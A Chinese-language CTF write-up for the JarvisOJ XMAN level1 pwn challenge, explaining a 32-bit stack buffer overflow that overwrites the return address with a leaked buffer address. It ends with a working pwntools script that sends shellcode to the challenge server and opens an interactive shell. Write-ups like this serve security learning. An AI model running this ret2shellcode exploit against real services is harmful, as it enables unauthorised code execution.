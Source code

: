 ```yaml
---
title: XMAN level1 の Write-Up
date: 2020-05-07 14:10:04
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- Stack
---
```

## Introduction

&emsp;&emsp;这是JarvisOJ的PWN题部分[XMAN]level1的Write-Up，比较简单。关键点在于当程序中没有现成的shellcode时，如何建立自己的shellcode并在buffer上布局。

<!-- more -->

## Step 1

&emsp;&emsp;程序运行如下图所示，可见会显示一个奇怪的地址：

![](/img/XMAN-level1/XMAN1.png)

&emsp;&emsp;还是一样的套路，checksec：32位程序，没有什么特殊的保护措施，并且栈上存在可读可写可执行的部分：

![](/img/XMAN-level1/XMAN2.png)

## Step 2

&emsp;&emsp;将程序拖到hopper disassembler中，熟悉的vulnerable_function函数：

![main函数](/img/XMAN-level1/XMAN3.png)

![vulnerable_function函数](/img/XMAN-level1/XMAN4.png)

&emsp;&emsp;通过vulnerable_function函数的伪C代码可以明白之前出现的那个奇怪的地址其实是泄露的buf地址，那么我们就应该有思路了：

![](/img/XMAN-level1/XMAN5.png)

&emsp;&emsp;首先左边是正常情况下栈中的布局情况，我们已知的是buf的起始地址。那么我们要做的是将ret的返回地址覆盖为buf的起始地址，这样我们就可以在buf中布局我们的shellcode。

&emsp;&emsp;右边是理想情况下我们布局后的栈中情况。

## Step 2

&emsp;&emsp;找到思路，下面就是EXP的编写了：

```Python
# coding:utf-8
from pwn import *

sh = remote('pwn2.jarvisoj.com', 9877)

# sh = process('./level1')
# elf = ELF('./level1')

# 获取buf地址
buf = sh.recvline()[14:22]
# 将16进制地址字符串转换成十进制的地址
buf_addr = int(buf, 16)

# 生成shellcode
shellcode = asm(shellcraft.i386.linux.sh())

payload = shellcode + "A" * (0x88 + 0x4 -len(shellcode)) + p32(buf_addr)

sh.send(payload)
sh.interactive()
sh.close()
```

&emsp;&emsp;执行后就可以拿到shell啦：

![](/img/XMAN-level1/XMAN6.png)
